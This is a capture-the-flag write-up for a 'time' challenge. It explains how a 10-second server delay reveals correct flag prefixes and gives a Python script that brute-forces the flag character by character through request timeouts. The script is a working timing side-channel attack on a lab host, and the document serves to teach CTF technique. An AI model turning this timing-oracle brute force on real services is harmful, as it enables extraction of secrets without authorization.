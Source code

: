 # Misc challenges
## Table of contents
- [time (15 solves)](./misc.md#time)

### time
```
Find the flag
```
**Attachements :**
- One website called `time.brb`
- [Trei Digete - Time Time](https://www.youtube.com/watch?v=st8xWyMZXOU)

#### Solution
As I don't have the sources of this challenge, it will be hard to explain well how it worked. But I will try.<br>
So, clicking on the website provided, we have a pretty simple page where we can see `Find the flag` written just above a text box.<br>
I will pass some minutes/hours of search, but after testing a lot of possibilities, you could find that when you test something, the website if really long to respond. Like really long. A bit too long. Then you can check how long it is but using your favorite browser's functionality to see how much time it takes for the server to respond. And now, you can see that it takes exactly 10 seconds. 10.00 seconds exactly. This is the time you realise that your life is a mess and that everything was long because it was in fact the challenge.<br>
After questioning every part of your life, you try to do something to see if the website can just respond instantly.<br>
After some minutes you may try to type the beginning of each flag at Barbhach : `brb`<br>
And then, magically, the website responds in no time ! Now the only thing to do is to bruteforce the flag.<br>
We can just make a get request that calls `http://time.brb:3000/index.php?flag=` and then put your flag in URL Encode.<br>
Just before we see the bruteforce script, I have to tell you that `#` and `&` have to be encoded by the script, otherwise it will break it.<br>
So here is the script :
```py
from urllib.parse import quote
import requests

url = "http://time.brb:3000/index.php?flag="

flag = "brb{"

while flag[-1] != "}":
    for i in range(33, 127):
        charToTest = chr(i)
        if charToTest == "#":
            charToTest = "%23"
        elif charToTest == "&":
            charToTest = "%26"
        else:
            charToTest = quote(charToTest, safe="")
        try:
            urlToSend = url + flag + charToTest
            print("Char tested: " + charToTest)
            r = requests.get(urlToSend, timeout=2)
            print("Char found: " + charToTest)
            flag += charToTest
            break
        except:
            pass

print("Full flag : " + flag)
```
Here, the bruteforce works because of the timeout. It is very important to timeout the requests otherwise the bruteforce would take ages, or the network would be overloaded (if you do it asynchronously). Trust me I've done it and it ain't good.<br>
If the request is timed out, the code will raise an error, that we intercept with the `try, except` keywords. Otherwise, it will print char found and add it to the flag.<br>
The output, in the end, is `brb{t1mkspKAW%3D%25q%26%24%5Emz}`<br>
We just need to URL Decode it with CyberChef for example to have our flag !

#### Flag
```
brb{t1mkspKAW=%q&$^mz}
```
